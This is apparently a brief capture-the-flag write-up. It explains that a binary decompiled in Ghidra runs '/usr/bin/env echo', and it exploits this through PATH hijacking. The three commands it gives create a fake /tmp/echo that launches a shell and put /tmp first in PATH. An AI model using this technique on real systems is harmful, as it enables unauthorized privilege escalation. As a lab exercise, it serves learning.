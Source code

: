 opening the binary in ghidra give us this pseudo C code :
![ghidra](./ghidra.png)

the binary is executing the `/usr/bin/env echo ...` which mean env use the $PATH env variable to search for the echo binary.
we can just replace the echo builtin by our echo programme by putting it in front of the PATH :
`echo sh > /tmp/echo`
`chmod +x /tmp/echo`
`export PATH="/tmp:$PATH"`

when env will search for echo it will find first /tmp/echo which execute a shell.
